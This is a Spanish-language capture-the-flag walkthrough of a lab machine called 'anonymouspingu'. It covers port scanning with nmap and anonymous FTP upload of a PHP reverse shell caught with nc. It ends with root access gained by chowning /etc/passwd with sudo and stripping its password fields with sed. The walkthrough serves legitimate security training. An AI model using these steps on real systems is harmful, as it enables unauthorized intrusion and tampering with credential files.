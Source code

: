 ### Maquina anonymouspingu

## Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

21/tcp open  ftp     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64


## Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p21,80 -vvv -Pn 172.17.0.2

![alt text](image.png)

## Intrusion

entramos por ftp

ftp 172.17.0.2 -> usuario: anonymous

![alt text](image-1.png)

encontramos una carpeta upload que tambien se puede visualizar por la web

en http://172.17.0.2/upload

Entonces subimos una rev en php para conectarnos a la maquina, nos ponemos en escucha por el puerto 443 con nc

![alt text](image-2.png)

![alt text](image-3.png)

viendo los usuarios en el S.O

cat /etc/passwd | grep bash

root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
pingu:x:1001:1001::/home/pingu:/bin/bash
gladys:x:1002:1002::/home/gladys:/bin/bash


## cambiando al usuario pingu

![alt text](image-4.png)

![alt text](image-5.png)

## cambiando al usuario gladys



![alt text](image-6.png)

## Escalando privilegios

![alt text](image-7.png)

sudo /usr/bin/chown gladys:gladys /etc/passwd

ls -l /etc/passwd -> para ver si cambiamos de propietario en el etc

luego hacemos

sed 's/x//g' /etc/passwd

sed -i 's/x//g' /etc/passwd

luego su root y sin escribir contraseña somos root

